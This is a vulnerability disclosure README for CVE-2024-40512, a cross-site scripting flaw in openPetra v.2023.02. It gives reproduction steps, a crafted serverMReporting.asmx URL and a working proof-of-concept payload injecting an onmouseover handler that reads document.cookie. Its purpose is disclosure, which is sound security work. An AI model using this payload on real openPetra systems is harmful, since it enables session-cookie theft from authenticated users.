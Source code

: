 # CVE-2024-40512
# Cross Site Scripting vulnerability in openPetra v.2023.02 via the serverMReporting.asmx function.

**Description**: An unauthenticated user can steal cookies from authenticated user, by exploiting a XSS in openPetra v.2023.02 via the serverMReporting.asmx function.

**Vulnerable Product Version**: openPetra v.2023.02  
**CVE Author**: Jansen Moreira 
**Date**: 13/07/2024  
**CVE**: CVE-2024-40512  
**CVE Link**: https://www.cve.org/CVERecord?id=CVE-2024-40512  
**NVD Link**: https://nvd.nist.gov/vuln/detail/CVE-2024-40512     
**Tenable Link**: https://www.tenable.com/cve/CVE-2024-40512  
**Confirmed on**: 13/07/2024                               
**Tested on**: Linux  
### Steps to reproduce:  
1- Access the home Page  
2- Use the following path and add the xss payload in the tab parametrer. EX.:  ```http://target.com/api/serverMReporting.asmx?bnd=TMReportingWebServiceSoap&op=TReportGeneratorWebConnector_GetProgress&page=op&tab=x" onmouseover=alert(document.cookie) x="```         
3- Hover the mouse over the left index item to trigger the XSS  

**Payloads**:  
tab: x" onmouseover=alert(document.cookie) x="


Discoverer(s)/Credits:
Jansen Moreira 
